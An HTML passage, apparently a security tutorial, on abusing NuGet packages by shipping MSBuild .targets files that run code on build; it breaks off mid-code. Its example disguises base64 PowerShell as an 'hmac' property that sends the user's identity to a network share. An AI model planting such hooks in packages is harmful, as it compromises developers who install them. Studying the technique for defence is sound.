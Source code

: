 <p>
.Net core projects no longer execute PowerShell scripts upon install. 
So as of writting this there is no way to execute during the nuget package install phase. Part of the reasoning behind this is because these scripts could indeed be used for a malicious purpose and so the team behind nuget removed this functionality from the newer versions support .net core.
    </p>
<p>
    <b>However</b> nuget packages can include msbuild .targets and .props files. If you have ever written a malicious csproj file you will know where this is going.
</p>

<p>
<pre>
    <code>
        <i>
        Targets group tasks together in a particular order and allow the build process to be factored into smaller units. 
        For example, one target may delete all files in the output directory to prepare for the build, while another compiles 
        the inputs for the project and places them in the empty directory
        </i>
    </code>
  </pre>
</p>

So targets are used for additional build operations that trigger off defined events. It just so happens there is a <b>exec</b> task that is built in. Whats also worth noting is that within target files you can define variables as well as write C# code to execute. 
So the attack now triggers upon a build event - which in the case of restoring a package will be the most probablistic action following a restore.

<pre>
    <code>
     <i>&lt;!-- .nuspec --&gt;</i>
    &lt;?xml version=&quot;1.0&quot;?&gt;
    &lt;package &gt;
        &lt;metadata minClientVersion=&quot;2.5&quot;&gt;
        &lt;!-- ... --&gt;
        &lt;/metadata&gt;
        &lt;files&gt;
            &lt;!-- Include everything in \build --&gt;
            &lt;file src=&quot;build\malicious.targets&quot; target=&quot;build&quot; /&gt;

            &lt;!-- Other files --&gt;
            &lt;!-- ... --&gt;
        &lt;/files&gt;
    &lt;/package&gt;
    </code>
</pre>

<pre>
    <code>
     <i>&lt;!-- Example .targets file--&gt;</i>
    &lt;Project&gt;
      &lt;PropertyGroup&gt;   
        &lt;hmac&gt;cG93ZXJzaGVsbCAtTm9Qcm9maWxlIOKAk0V4ZWN1dGlvblBvbGljeSBCeXBhc3MgLUNvbW1hbmQgIiR1c2VyID0gJiB3aG9hbWk7QWRkLUNvbnRlbnQgLy9HUjA1OTYxOS9sb2cvbG9nLnR4dCAkdXNlciIK&lt;/hmac&gt;    
      &lt;/PropertyGroup&gt; 
      &lt;UsingTask TaskName=&quot;ToBase64&quot; TaskFactory=&quot;CodeTaskFactory&quot; AssemblyFile=&quot;$(MSBuildToolsPath)\Microsoft.Build.Tasks.v4.0.dll&quot;&gt;
        &lt;ParameterGroup&gt;
          &lt;In ParameterType=&quot;System.String&quot; Required=&quot;true&quot; /&gt;
          &lt;Out ParameterType=&quot;System.String&quot; Output=&quot;true&quot; /&gt;
        &lt;/ParameterGroup&gt;
        &lt;Task&gt;
          &lt;Code Type=&quot;Fragment&quot; Language=&quot;cs&quot;&gt;